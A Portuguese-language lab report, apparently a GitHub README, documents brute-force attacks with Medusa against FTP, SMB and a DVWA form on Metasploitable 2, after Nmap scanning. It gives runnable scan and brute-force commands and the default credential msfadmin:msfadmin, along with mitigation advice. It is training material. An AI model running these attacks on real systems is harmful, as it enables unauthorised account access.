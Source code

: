 # Relatório Técnico — Ataques de Força Bruta com Medusa

## 1. Sumário executivo
Laboratório realizado em ambiente controlado para demonstrar técnicas de força bruta (Medusa) e mapeamento de serviços (Nmap). Testes foram conduzidos contra FTP, formulário web (DVWA) e SMB. Credenciais fracas foram identificadas em ambiente de teste; recomendações de mitigação foram propostas.

---

## 2. Objetivos
- Demonstrar ataques de força bruta em serviços FTP e SMB usando Medusa.  
- Demonstrar automação contra formulário web (DVWA) via `http-post` (exemplo).  
- Mapear portas e serviços com Nmap (TCP/UDP) e identificar SO.  
- Documentar procedimentos, resultados e recomendações.

---

## 3. Ambiente de teste
- Atacante: Kali Linux (versão: <KALI_VERSION>)  
- Alvo: Metasploitable 2 / DVWA (versão: padrão do lab)  
- Ferramentas: Medusa (versão: <MEDUSA_VERSION>), Nmap (versão: <NMAP_VERSION>), smbclient  
- Rede: VirtualBox — Host-Only/Internal  
- IPs: todos substituídos por placeholders no repositório público (`<TARGET_IP>`)

---

## 4. Wordlists utilizadas
- `wordlists/small-users.txt`: lista de usuários de exemplo.  
- `wordlists/small-pass.txt`: lista de senhas de exemplo (para demonstração).  
> Observação: listas reduzidas apenas para demonstração; auditorias reais exigem wordlists apropriadas e autorização.

---

## 5. Comandos executados (resumo)
> Substitua `<TARGET_IP>` e `<PORTA>` pelos valores do seu laboratório.

# 5.1 Conectividade
```bash
ping -c 4 <TARGET_IP>.
---
# 5.2 Mapeamento de portas e serviços (Nmap)

UDP scan:

sudo nmap -v -sU -p <PORTAS> <TARGET_IP>


TCP SYN (stealth):

sudo nmap -v -sS <TARGET_IP>


 Versão do serviço + timing agressivo:

sudo nmap -v -T5 -sS -sV -p <PORTA> <TARGET_IP>


 Detecção completa (SO, versão, scripts):

sudo nmap -A <TARGET_IP>


Detecção de sistema operacional:

sudo nmap -O <TARGET_IP>

 Ignorar discovery e mostrar só portas abertas:

sudo nmap -v -T5 -sS -Pn --open <TARGET_IP>


## Observações: -T5 é agressivo; para menos risco de instabilidade use -T4. Scans UDP são lentos e menos confiáveis.

# 5.3 Teste manual de FTP
ftp <TARGET_IP>


## Verifica se o serviço FTP responde e permite login manual.

# 5.4 Preparação de wordlists

## Usuários:

echo -e "user\nmsfadmin\nadmin\nroot" > user.txt


## Senhas:

echo -e "password\n123456\nwelcome\nmsfadmin" > senhas_spray.txt


(Use aspas normais " e echo -e com espaço.)

# 5.5 Ataques com Medusa

## Exemplo genérico:

medusa -h <TARGET_IP> -U users.txt -P senhas_spray.txt -M <serviço> -t 10


## Exemplo SMB:

medusa -h <TARGET_IP> -U smb_users.txt -P senhas_spray.txt -M smbnt -t 10 | tee artifacts/medusa-smb-output.txt


## Exemplo FTP (usuário único):

medusa -h <TARGET_IP> -u msfadmin -P wordlists/small-pass.txt -M ftp | tee artifacts/medusa-ftp-output.txt


## Atenção: -t define threads; threads muito altas podem derrubar serviços.

# 5.6 Validação SMB (smbclient)
smbclient -L //<TARGET_IP> -U msfadmin
(não recomendado para repositório público)
smbclient -L //<TARGET_IP> -U msfadmin%msfadmin

# 6. Resultados (resumo)

FTP: credencial de exemplo msfadmin:msfadmin encontrada no ambiente de teste. Login confirmado manualmente via ftp. (Logs salvos em artifacts/medusa-ftp-output.txt — não publicados)

SMB: credencial msfadmin:msfadmin validada em ambiente de teste. (Logs salvos em artifacts/medusa-smb-output.txt)

DVWA (webform): com a wordlist reduzida não foram encontradas credenciais; é necessário ajustar campos do formulário ou usar wordlists maiores para testes mais amplos.

## Observação: os outputs reais foram mantidos localmente e não foram publicados por razões de segurança.

# 7. Análise de risco

Contas com senhas fracas permitem acesso não autorizado a serviços (FTP/SMB), podendo levar a movimentação lateral e exfiltração em ambientes reais.

Serviços desatualizados ou expostos sem segmentação aumentam a superfície de ataque.

# 8. Recomendações de mitigação

Forçar políticas de senha fortes e rotação periódica.

Implementar bloqueio/retardo após N tentativas de autenticação falhas.

Habilitar autenticação multifator (MFA) para acessos críticos.

Segmentar rede e limitar exposição de serviços via VPN ou regras de firewall.

Monitoramento e alertas para tentativas de brute force e padrões anômalos.

Atualizar serviços e corrigir vulnerabilidades conhecidas.

# 9. Como reproduzir (resumo rápido)

Provisionar VMs: Kali Linux + Metasploitable2 (DVWA).

Configurar VirtualBox: Host-Only/Internal network.

No Kali: sudo apt update && sudo apt install medusa nmap smbclient -y.

Preparar wordlists em wordlists/.

Executar nmap para mapear portas; executar medusa conforme comandos acima; validar manualmente com ftp/smbclient.

Salvar logs em artifacts/ (local) e screenshots em screenshots/ (privado).

# 10. Apêndices

commands.sh — script com os comandos usados (ex.: executar medusa e salvar saídas).

wordlists/ — listas de exemplo (pequenas).

DISCLAIMER.md e MIT-LICENSE.txt.






